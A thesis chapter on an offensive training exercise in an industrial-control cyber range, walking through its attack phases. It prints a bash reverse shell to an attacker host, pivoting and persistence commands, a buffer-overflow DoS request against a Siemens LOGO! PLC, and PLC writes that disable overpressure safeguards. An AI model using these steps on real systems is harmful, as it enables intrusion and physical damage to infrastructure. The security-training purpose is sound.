\chapter{\textsc{Attack design}} \label{ch:attack-design}

Created CR was used to conduct offensive cybersecurity exercise. This chapter describes the exercise attack scenario, possible attack vectors, and execution steps. Section \ref{sec:thret-scenario} describes an environment scenario where the attacker needs to fulfill objectives. Section \ref{sec:attack-structure} describes attack frameworks and approaches and chooses one which can be used to describe attacker actions and decisions for the scenario. Section \ref{sec:attack-vectors} offers attack vectors which participants can use during the exercise. Section \ref{sec:attack-execution} describes executed attacks on CR to achieve the objectives. Section \ref{sec:excerisse-conclusion} explains practical workshop execution steps.

\section{Threat scenario} \label{sec:thret-scenario}

Based on information in literature review \ref{sec:lit-rev},  attackers use routes through the Internet, business, or enterprise networks and down the level of field devices to attack IACS systems. Then, gaining a foothold into the enterprise network, attackers can traverse the network till finding access to the IACS systems. \citeauthor{72-ics-atack-taxonomy} \parencite{72-ics-atack-taxonomy} states that common attack vectors are backdoors, rootkits, holes in network perimeter, vulnerabilities in standard protocols, communications hijacking, and man-in-the-middle attacks. This is considered when deciding the initial position of the attacker for this threat scenario. Hence, in this scenario, the attacker has gained persistent access to the enterprise network and has established an internal proxy inside the office network. The establishment of this initial position is out of scope for this research and will not be discussed. The initial state of the scenario is shown in figure \ref{fig:cr-network-topology-scenario}. In this scenario enterprise network is divided into two segments. One is the office network, where the attacker has gained initial access and has established a command and control channel. Second is the IACS network containing heating plant and warehouse management system described in chapter \ref{ch:cr-design}. In this case office network does not contain any devices as it is out of scope for this exercise and is not required to complete attacks in the IACS network. The displayed structure has informative nature for participants to facilitate the overall idea of the scenario. Therefore, only the IACS network contains actual devices.


\begin{figure}[htb]
	
\includegraphics[width=\linewidth]{rangeX-CR.pdf}
	\caption{IACS CR threat scenario topology created by the author.}
	\label{fig:cr-network-topology-scenario}
\end{figure}


With participants in this exercise, the author understands cybersecurity experts with knowledge in IACS systems. In this scenario, the participant plays as the red team and has two main objectives, which can be achieved by any tools possible, but mainly self-created Python scripts are encouraged:

\begin{enumerate}
	\item Switch off warehouse lights and alarm, and prevent system recovery;
	\item Damage heating plant and prevent system recovery.
\end{enumerate}

\section{Attack structure} \label{sec:attack-structure}

Adversary attacks usually consist of multiple steps to achieve the objectives. Each of these steps includes \gls*{ttp}. As described in NIST Glossary \parencite{WEB15-nist-glosary}, \gls*{ttp} are adversary behavior where tactics are high-level procedures and techniques are specific actions the attacker makes in the context of the specific technique. The chain of these steps is called the kill chain. In other words, the cyberattack kill chain is steps that trace stages of a cyberattack from the initial reconnaissance stage to the final actions \parencite{77-ics-kill-chain}. The author has found three different kill chain approaches - \citeauthor{78-kill-chain} Kill Chain, ICS kill chain, and MITRE ATT\&CK TTPs knowledge base. It worth mentioning that the cyber kill chain is a concept used for defense to understand and predict attacker \gls*{ttp}. For this research purposes kill chain is not used for defense but for attack scenario structure development.

Term kill chain was first used by \citeauthor{78-kill-chain} \parencite{78-kill-chain}. \citeauthor{78-kill-chain} Kill chain is used to understand and counter adversary's actions in each step of attack -  reconnaissance, weaponization, delivery, exploitation, installation, command and control, actions on objectives.

Research  \citeauthor{77-ics-kill-chain} \parencite{77-ics-kill-chain} has adapted \citeauthor{78-kill-chain} \parencite{78-kill-chain} kill chain for use in IACS field. The author proposed to nest kill chains in 3 stages. The external kill chain is meant to breach the enterprise network perimeter. The internal kill chain is to gain access to the IACS network, and ICS kill chain is used to implement the final attack on IACS processes. Each of the processes iterates through \citeauthor{78-kill-chain} \parencite{78-kill-chain} kill chain.



Both approaches \parencite{78-kill-chain, 77-ics-kill-chain} look at attacker actions from the perspective of defense operations. Hence, the author concludes that this attack structure is not suitable for this scenario. Moreover, it lacks depth in attacker actions.

Yet another approach to attack classification is MITRE ATT\&CK \parencite{WEB-08-mitre-att}. This framework focuses more on attacks from the attacker's viewpoint. MITRE ATT\&CK TTPs knowledge base describes an adversary's actions to gain access, compromise, and operate within the target network. This TTPs knowledge base gives a deeper level of granularity in describing what can occur during an intrusion. In addition, attackers and defenders can utilize MITRE ATT\&CK TTPs to describe attacks using them in any order since threat actor's approaches are often creative and not standardized. MITRE ATT\&CK  seeks to classify the attacker's goals, tasks, and steps. Thus, it is a much more comprehensive approach for attack modeling. MITRE ATT\&CK uses tactics to describe the adversary's goals for specific attack stages and techniques to describe how attackers can reach the goal. It is worth mentioning that these TTPs can deviate according to the actual target situation during the attack. Therefore an attacker can also skip some of the tactics.

Tactics are summarized as follows \parencite{WEB-08-mitre-att}:

\begin{itemize}
	\item Reconnaissance - preparing for the attack by gathering information about target;
	\item Resource development - gathering resources to support operations;
	\item Initial access - obtaining an initial foothold into target system; 
	\item Execution - trying to run malicious payload code on target systems; 
	\item Persistence - retain access to systems across restarts and other target system interruptions;
	\item Privilege escalation - obtain higher-level permissions on a system;
	\item Defense evasion - an adversary attempts to avoid the detection;
	\item Credential access - stealing accounts names and passwords;                   
	\item Discovery - gain information about internal networks and systems;            
	\item Lateral movement - exploring the network by moving through the environment; 
	\item Collection - collecting data of importance to the adversary objective;
	\item Command and control - establishing communication channels with compromised systems to control them;
	\item Exfiltration - stealing data of interest;
	\item Impact - interrupt, manipulate or destroy systems and data.
	
\end{itemize}

The author considers MITRE ATT\&CK TTPs knowledge base as most suitable for this research for two reasons. Firstly, this framework views attack from the attacker's perspective and encompasses broad attack techniques, and secondly, MITRE ATT\&CK tactics can be shaped and rearranged to match specific needs.

A complete list of MITRE ATT\&CK tactics is unnecessary for this threat scenario, as the attacker has already gained stable access to the office network. Therefore, the author proposes to use only the following tactics for each network segment:

\begin{enumerate}
	\item Tactics in office network:
	
	\subitem Discovery - looking for available devices in the office network;
	
	\subitem Lateral movement - attacker spreading to other devices;
	
	\subitem Persistence - attacker gains stable access network devices to gains access to IACS network;
	
	\subitem Command and control - attacker uses techniques to establish communication with the compromised system.

	\item Tactics in IACS network:
	
	\subitem Discovery - Looking for available devices in the IACS network, discovering open ports, and discovering IACS processes controlled by the IACS network;
	
	\subitem Collection - Extracting detailed information about IACS elements and their purpose;
	
	\subitem Impact - actions on objectives.
	
\end{enumerate}

\section{Attack vectors} \label{sec:attack-vectors}

Across literature there is multiple definitions of attack vector \parencite{WEB-17-kasperky-enciclopedia-atack-vector, WEB-18-pcmag-attack-vector, WEB-20-techtarget-atack-vector}. The author in this work interprets the term attack vector as one or more vulnerabilities, permitting attack against the target system. Attack vectors used in this threat scenario (see Section \ref{sec:thret-scenario}) is listed in table \ref{tab:sec-flaws}. Author has included listed vulnerabilities for the CR has based on two considerations. The first one is based on hardware and software capabilities, and the second is based on common vulnerabilities listed in reports \parencite{WEB-16-mitre-ows-2020-security-flaws, 96-kaspersky-2015-ics-vulnerability-statistics}.

\begin{longtable}[c]{|c|p{0.2\textwidth}|p{0.14\textwidth}|p{0.5\textwidth}|}
	\caption{\raggedright{Implemented security flaws by the author.}}
	\label{tab:sec-flaws}\\
	\hline
	\textbf{Nr.} & \textbf{Name}                                      & \textbf{System element} & \textbf{Description}                                                                                                                 \\ \hline
	\endfirsthead
	\endhead
	%
	1            & Lack of network segmentation                       & Network                 & Lack of segmentation between warehouse and heating plant systems                                                                     \\ \hline
	2            & Topology misconfiguration                          & Network                 & web-SCADA has two interfaces, where one interface is connected directly   to the office network bypassing IACS firewall and security \\ \hline
	3            & Weak credentials                                   & WEB-SCADA               & Credentials of NodeRed configuration are too week                                                                                \\ \hline
	4            & Lack of user privilege separation                  & WEB-SCADA               & NodeRed is run by only user on system which has root privileges                                                                     \\ \hline
	5            & Modbus are not limited to specific master device    & LOGO! 8.2                  & LOGO! Can receive Modbus requests from any device in the network                                                                     \\ \hline
	6            & Modbus built in vulnerability                       & LOGO! 8.2                   & Modbus communication protocol vulnerabilities as lacks authentication   and encryption                                            \\ \hline
	7            & Buffer overflow                                    & LOGO! 8.2                   & LOGO!8.2 version suffers from web-server buffer overflow vulnerability   CVE-2020-7593 \parencite{WEB-11-logo-buffer-overflow}            \\ \hline
	8   & Lack of security in PLC configuration    & S7-1200    & S7comm protocol PUT GET commands allows attacker to execute various read and write attacks.                                      \\ \hline
	9            & TIAportal project lacks protection                & S7-1200                 & S7-1200 project can be downloaded, viewed, and updated                                                                                \\ \hline
	10           & FTP server with anonymous access                    & SCADA                   & MS Windows 7 workstation FTP server allows anonymous authentication                                                                   \\ \hline
\end{longtable}


\section{Attack execution} \label{sec:attack-execution}


Overview of attack execution structured by segments and objectives is displayed in figure \ref{fig:atack-exec}. In the following subsections, each attack phase is described in detail. Used vulnerabilities in flowing scenario are designed and created by the author.



\begin{figure}[htb]
	
\includegraphics[width=\linewidth]{attack-execution.pdf}
	\caption{Attack execution graph divided by network segment and objectives, based on MITRE ATT\&CK knowledge base.}
	\label{fig:atack-exec}
\end{figure}


\subsection{Discovery in office network}

This is the initial phase, so the network wise the attacker is in initial position in office network (see Fig. \ref{fig:cr-network-topology-scenario}). Based on MITRE ATT\&CK knowledge base, the attacker can perform network scanning and enumeration to identify services running on remote hosts. Attacker may use Nmap \footnote{Nmap - \url{https://nmap.org/}{https://nmap.org/}} to discover remote hosts. The scan reveals 22/tcp, 80/tcp, 8080/tcp open ports on the IOT2040 device. 

The attacker can then use a web browser to access the webpage running on port 80/tcp and determine it is WEB-SCADA, which controls the warehouse management system. Therefore, this device is connected to the IACS network. Next, the attacker performs a thorough check of services running on the WEB-SCADA and discovers NodeRed running on this device. Thus, NodeRed is the attack vector in the lateral movement phase.

\subsection{Lateral movement}

During this phase, the attacker performs actions to gain a foothold to the WEB-SCADA device and change network position (see Fig. \ref{fig:cr-network-topology-scenario}). 

One of the possible ways to gain access to the WEB-SCADA attacker is to perform remote code execution by modifying the NodeRed application running on IOT2040. The attacker can adjust the NodeRed application by introducing a function block named \textit{exec} which executes shell commands directly on the target machine. Hence attacker can execute any command on the target device by injecting it to the \textit{exec} as shown in \ref{fig:nodered-inject}. The executed command is reverse shell:

\begin{verbatim}
	bash -i >& /dev/tcp/{Attacker IP}/4445 0>&1
\end{verbatim} 

Reverse shell command connects to attackers machine listening on port 4445/tcp using NetCat listener command:

\begin{verbatim}
	nc -lvp 4445
\end{verbatim} 

Now the attacker have gained access to WEB-SCADA shell. As the NodeRed service runs with root privileges, the attacker gains root shell access. From here, the attacker may discover that the IOT2040 has two network interfaces, one connected to the office network and the second one to the IACS network. Also, now the attacker discover that the IACS network is responsible for controlling warehouse management and heat plant systems.

\begin{figure}[htb] % Squeez this image, meke it compact
	
\includegraphics[width=\linewidth]{nodered-inject.pdf}
	\caption{Example of NodeRed application modification for reverse shell execution.}
	\label{fig:nodered-inject}
\end{figure}


\subsection{Persistence}

To gain persistent access to the newly captured device attacker can utilize gained root shell to WEB-SCADA. Attacker performs account manipulation by modifying the SSH \textit{~/.ssh/authorized\_keys} file. Attacker inserts his generated SSH public key into the file. The \textit{authorized\_keys} file in SSH identifies the SSH keys used to log in to the user account. After this step attacker can connect to the IOT2040 by using a standard SSH connection. That allows for the attacker to maintain access to the machine even if the device restarts.

\subsection{Command and control}

Through this step, the attacker configures IOT2040 to work as an internal proxy to redirect traffic from the attacker to the target network, in this case, IACS. In addition, proxying also reduces numerous connections to external systems, hence concealing the adversary's actions.

The attacker can use numerous tools and techniques to create the proxy. However, as every tool and technique cannot be described here, the author must limit choice between the two techniques. Each of them has some drawbacks and advantages. One is using proxychains, and the second is to configure Linux to work as a router:

\textit{Proxychains} are created utilizing ssh local port forwarding. The attacker executes command:
	
\begin{verbatim}
		ssh -i key.private -L 4040 localhost:5050 iot2040@{IOT2040 IP}
\end{verbatim} 

This command create SSH tunnel from attacker machine to IOT2040. This tunnel forwards all traffic from the attacker's local port 4040/tcp to remote device port 5050/tcp. Now the attacker can pipe the traffic from the attacker machine through the tunnel to the IACS network using Linux command \textit{proxychains}. First, the attacker needs to configure proxy chains by adding SOCKS4 proxy to  \textit{/etc/proxychains.conf}. For example, for the attacker to scan devices on the IACS network, he can append \textit{proxychains} before the command, like so


\begin{verbatim}
	proxychains nmap -n -Pn -sT -T2 {target IP range}
\end{verbatim}
 \textit{}. 
 
The drawback of this technique is the limitation of network scans, as a proxy cannot support ICMP, SYN stealth scans, and OS detection. In this case, the attacker is limited to simple TCP connections.
	
\textit{Routing} is a convenient way to send traffic to and from the attacker. To set the IOT2040 Linux machine to work as a router attacker needs to enable IP forwarding by executing: 

\begin{verbatim}
	sysctl net.ipv4.ip_forward=1
\end{verbatim}

, set NAT rule with

\begin{verbatim}
	iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
\end{verbatim}

, and accept traffic from eth0 interface: 

\begin{verbatim}
	iptables -A INPUT -i eth0 -j ACCEPT 
\end{verbatim}

Using this method, all traffic sent on one IOT2040 network interface is routed to the second interface. The drawback of this method is the lack of traffic obfuscation to reduce attacker detection.
	
\subsection{Discovery in IACS network}

In this stage, the attacker tries to enumerate devices in the IACS environment and learn about the internal network. To do so, the attacker scans the network using Nmap or other noninvasive network enumeration techniques. Nmap scan in IACS network should be limited in speed and complexity of the scan as PLCs have limited computing capacity and can be overwhelmed with too many requests. Research \parencite{98-ics-network-scaning} has done extensive investigation on Nmap scans against different PLCs and suggests limiting Nmap to SYN or ARP scan with reduced speed setting of -T2 (0.4s).


Through this step, the attacker can locate three other devices in the network, where two of them are PLCs with open ports 102/tcp and 502/tcp. Port 102/tcp is standard for S7comm communication, and 502/tcp is typical for Modbus. The third device is SCADA (see Fig. \ref{fig:cr-network-topology-scenario}). From this position, the attacker can act on PLCs, as they directly control physical processes.

\subsection{Objective Nr.1 - warehouse attack}

The first objective for the attacker is to \textit{switch off warehouse lights and alarm and prevent system recovery}. This objective is focused on the warehouse management system. Next are the steps attacker takes to acquire this objective.

\subsubsection{Collection}

During the collection stage, the attacker attempts to get information about the target system, in this case, the warehouse management system controlled by LOGO! 8.2 . Techniques used in this stage facilitate attacker to obtain contextual feedback and how the physical system operates.

For the attacker to gain more insights, he can download the PLC configuration file from the memory of the LOGO! 8.2. It can be done by utilizing Siemens LOGO! Soft Comfort configuration software described in section \ref{sec:warehouse-managment} From the captured PLC program attacker can determine memory locations that should be targeted using Modbus protocol vulnerabilities. LOGO! 8.2 application with used address are presented in figure \ref{fig:logo-logic}.


\subsubsection{Impact}

During the impact stage, the attacker tries to manipulate, disrupt or impair IACS systems and controlled physical processes. In this particular case, the attacker performs manipulation of control by sending rough Modbus commands to LOGO! 8.2. Furthermore, he performs a denial of control attack.

\begin{longtable}[c]{|l|c|l|}
	\caption{\raggedright{LOGO! 8.2 address type and Modbus mapping.}}
	\label{tab:logo-addres-maping}\\
	\hline
	\textbf{Address Type} & \textbf{Range} & \textbf{Mapped Modbus address} \\ \hline
	\endhead
	%
	Inputs (I)            & 1 – 24         & Digital inputs 1 – 24          \\ \hline
	Outputs (Q)           & 1 – 20         & Coil – 8193 – 8212             \\ \hline
	Data block 1 (V)      & 0.0 – 850.7    & Coil 1 – 6808                  \\ \hline
\end{longtable}

To perform control manipulation, the attacker uses information gathered from the collection phase. For the attacker to switch off the lights and alarms, he needs to control a specific LOGO! 8.2 variables \textit{V10.1} and \textit{V10.2}. Derived from LOGO! 8.2 user documentation are Modbus address mapping shown in figure \ref{tab:logo-addres-maping}. Using this information attacker sends Modbus commands, changing the state of addresses 82 and 83 from true to false. Function code for writing to memory is \textit{0x05} (see Tab. \ref{tab:modbus-function-codes}). An example of a crafted Modbus packet in hexadecimal is displayed in figure \ref{fig:Modbus-attack}. Created Modbus frame is encapsulated in TCP/IP packet and sent to the destination. Python script example created by the author for this scenario can be seen in GitHub \footnote{Modbus proof of concept scripts created by the author. - (\url{https://github.com/austrisu/ICS_poc})}.

\begin{figure}
	\center{\includegraphics[width=\linewidth]{Modbus-attack.pdf}}
	\caption{Attacker constructed Modbus frame example.}
	\label{fig:Modbus-attack}
\end{figure}

To impair the functionality and availability of the warehouse management system, the attacker can perform two types of attack. First is the \gls*{dos} attack exploiting LOGO! 8.2 firmware vulnerability. The second is to modify the LOGO! 8.2 application so that it does not respond to any requests. 

DoS attack exploits a buffer overflow in LOGO! 8.2 firmware. To perform this attack participant sends an HTTP request to LOGO! 8.2 built-in web server with too long path. As the web page does not check for the length of supplied string, it results in overriding memory outside the allowed memory space causing LOGO! 8.2 to crash and restart. This vulnerability is described in CVE-2020-7593 \parencite{WEB-11-logo-buffer-overflow}. In practice, DoS can be achieved by cyclically running the command:

\begin{verbatim}
	curl http://{LOGO! IP}/`python -c 'print("A"*100)'`/
\end{verbatim} 

The second way to impair warehouse management is to update LOGO! 8.2 program. That can be done by using Siemens LOGO! Soft Comfort described in section \ref{sec:warehouse-managment}

\subsection{Objective Nr.2 - heat plant attack}

The next objective is to disable and damage the heating of the city and prevent system recovery. Following are the tactics attacker takes to acquire this objective.

\subsubsection{Collection}

During this stage, the attacker tries to get information about the target system, in this case, the heating plant controlled by S7-1200 PLC (see Fig. \ref{fig:cr-network-topology-scenario}). Techniques used in this stage facilitate attacker to obtain contextual feedback and how the physical system operates.

S7-1200 program includes two parts: control logic and HIL simulation of the heating process. Hence, the part responsible for physical system simulation is off-limits for the CR participants. Therefore, attacks are directed only to the control logic part.

The attacker can gather additional information about the state of the heating plant by getting access to the PLC program. As PLC program download is password protected, for that reason, the attacker cannot gain access to it. However, a copy of this program is located in the SCADA workstations FTP server. The FTP server runs with anonymous access. Therefore, the attacker can download the program and examine it with TIAportal described in section \ref{sec:heat-proces}.

\subsubsection{Impact}

During the impact stage, the attacker tries to manipulate, disrupt or impair IACS systems and controlled physical processes. The main vulnerabilities of S7-1200 are bound to the S7comm protocol. For the attacker to exploit protocol vulnerabilities, he needs to understand the program structure gathered during collection phase. 

From the downloaded S7-1200 program, the attacker can determine what tags are responsible for specific physical function control. These tags are shown in table \ref{tab:s71200-tag-names-attack}. Each tag name has assigned the data block number and memory offset within that data block. These are the parameters necessary to send the S7comm control request to the PLC.

\begin{longtable}[c]{|l|c|c|c|}
	\caption{\raggedright{S7-1200 tags, relevant for the attack.}}
	\label{tab:s71200-tag-names-attack}\\
	\hline
	\textbf{Tag name}    & \textbf{Data type} & \textbf{Memory offset} & \textbf{Data block} \\ \hline
	\endhead
	%
	temperature\_setpoint & int                & 0.0                   & DB6                 \\ \hline
	max\_pressure         & int                & 2.0                   & DB6                 \\ \hline
	pump\_speed           & int                & 0.0                   & DB9                 \\ \hline
	valve\_state          & bool                & 2.0                   & DB9                 \\ \hline
\end{longtable}

The attacker can send crafted S7comm requests to PLC using Python script with S7comm library called Snap7 \footnote{Snap7 - \url{http://snap7.sourceforge.net/}}. Before using the Snap7 library, it should be compiled from the source, and the high-level Python wrapper can use the Snap7 library. The author created a Python script example for this scenario is located in GitHub \footnote{S7comm proof of concept scripts created by the author. - \url{https://github.com/austrisu/ICS_poc}}.

This attack process can be divided into two steps. The first one is to damage the circulation pump (see Fig. \ref{fig:scada-programing-interface} A1), and the second is to damage the whole heating system:

\begin{enumerate}
	\item To damage the circulation pump, the attacker needs to close the valve A3 (see Fig. \ref{fig:scada-heating-view}) controlling HTF flow to the city districts and keep the circulation pump A1 (see Fig. \ref{fig:scada-heating-view}) running. Hence, the attacker sets \textit{pump\_speed} to nominal value and \textit{valve\_state} to false, thus, closing the valve A3. Physical system limitations allow the pump to operate under such conditions for 10 seconds after that pump gets damaged and cannot be controlled anymore.
	
	\item To damage the heating plant, the attacker needs to overheat and overpressurize the system by setting a tag \textit{temperature\_setpoint}  above 100 °C. This will increase gas flow to the burning chamber and raise the HTF temperature. However, the PLC program has safeguards. When the system's temperature and pressure reach the maximum value, PLC protects the process by extinguishing the furnace and alarms the operator. Therefore, before adjusting the setpoint, the attacker needs to increase \textit{max\_presure} tag value above 60 psi to remove implemented safeguards.
\end{enumerate}

After the successful execution of the attack, the SCADA screen shows a damaged simulated heating plant, seen in figure \ref{fig:scada-final}. After these attacks, the physical process is impaired, and recovery can be made only by physical repair. However, as the physical process is simulated then no damage is done to actual CR physical devices.

\begin{figure}
	\center{
\includegraphics[width=0.5\linewidth]{scada-final.pdf}}
	\caption{Heating system state seen in the SCADA after attack to S7-1200 PLC created by the author.}
	\label{fig:scada-final}
\end{figure}


\section{Training conclusion} \label{sec:excerisse-conclusion}

One of the main goals for creating IACS CR was to provide an environment for practicing offensive capabilities where participants can try attacks on IACS elements and observe their impact. For that reason author developed an exercise using the scenario described in section \ref{ch:attack-design} This exercise was conducted for five participants who are experts in the cybersecurity field and some of them had a background in IACS. Each participant had dedicated CR, thereby, for this exercise, five sets of CR were used.

As the exercise aimed to develop an offensive skillset in the IACS field for the participants, the author also created a supporting presentation to guide the participants. Author's created presentation can be found in GitHub repository \footnote{frostyICS - IACS cyber range for offensive capability development ( \url{https://github.com/austrisu/frostyICS})}.

The successful completion of the course was determined by the fact, whether the participants reached the objectives (see Sec. \ref{sec:thret-scenario}). The exercise took a little less than two days during which all participants attained scenario objectives for both physical systems. After the exercise, participants were asked to fill the feedback form. Summary of the feedback form questions in respective order are:

\begin{enumerate}
	\item Were the tasks and achievable results understandable?
	\item Does this exercise help to understand industrial control systems better? 
	\item Did this cyber range increase knowledge about cybersecurity risks in IACS systems?
	\item Is the knowledge provided useful? 
\end{enumerate}
